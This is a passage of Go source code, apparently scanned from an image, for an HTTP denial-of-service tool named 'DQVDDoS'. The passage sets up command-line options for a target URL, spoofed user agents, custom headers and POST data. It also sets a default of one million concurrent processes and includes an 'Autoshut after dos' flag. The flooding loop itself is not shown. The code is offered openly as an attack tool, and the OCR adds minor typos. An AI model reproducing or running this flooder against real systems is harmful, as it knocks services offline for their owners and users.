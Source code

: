 func (i *arrayFlags) Set(value string) error {
	*i = append(*i, value)
	return nil
}

func main() {
	var (
		version bool
		s       string
		agents  string
		data    string
		headers arrayFlags
	)

	flag.BoolVar(&version, "version", false, "print version and exit")
	flag.BoolVar(&safe, "safe", false, "Autoshut after dos.")
	flag.StringVar(&s, "s", "http://localhost", "Destination s.")
	flag.StringVar(&agents, "agents", "", "Get the list of user-agent lines from a file. By default the predefined list of useragents used.")
	flag.StringVar(&data, "data", "", "Data to POST. If present diever will use POST requests instead of GET")
	flag.Var(&headers, "header", "Add headers to the request. Could be used multiple times")
	flag.Parse()

	t := os.Getenv("DQVDDoSAttack")
	maxproc, err := strconv.Atoi(t)
	if err != nil {
		maxproc = 1000000
	}

	u, err := url.Parse(s)
	if err != nil {
		fmt.Println("err parsing url parameter\n")
		os.Exit(1)
	}

	if version {
		fmt.Println("DQVDDoS", __version__)
		os.Exit(0)
	}

	if agents != "" {
		if data, err := ioutil.ReadFile(agents); err == nil {
			headersUseragents = []string{}
			for _, a := range strings.Split(string(data), "\n") {
				if strings.TrimSpace(a) == "" {
					continue
				}
				headersUseragents = append(headersUseragents, a)
			}
		} else {
			fmt.Printf("can'l load User-Agent list from %s\n", agents)
			os.Exit(1)
		}
	}
